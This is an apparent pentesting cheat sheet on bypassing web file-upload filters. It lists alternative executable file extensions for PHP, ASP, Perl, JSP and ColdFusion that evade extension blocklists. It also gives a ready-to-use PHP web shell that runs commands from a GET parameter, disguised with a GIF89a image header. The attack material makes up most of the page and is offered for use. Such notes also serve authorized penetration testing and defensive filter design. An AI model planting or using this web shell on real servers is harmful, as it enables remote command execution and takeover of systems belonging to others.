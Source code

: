 # File Upload Bypass

File Upload Bypass allows attackers to upload malicious files to the web server, which can then be executed by other users or the server itself. The main goal is to bypass filters applied by the web app

## Bypass filters

**Its possible to bypass with the following extensions and we could try using upper case too**

| Language | Bypass |
| :--- | :--- |
| php | .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc |
| asp | .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml |
| perl | .pl, .pm, .cgi, .lib |
| jsp | .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action |
| Coldfusion | .cfm, .cfml, .cfc, .dbm |

## GIF89a; header <a id="gif-89-a-header"></a>

```php
GIF89a;
<?
system($_GET['cmd']);
?>
```

## References

* [https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
* [https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/file-upload-bypass](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/file-upload-bypass)

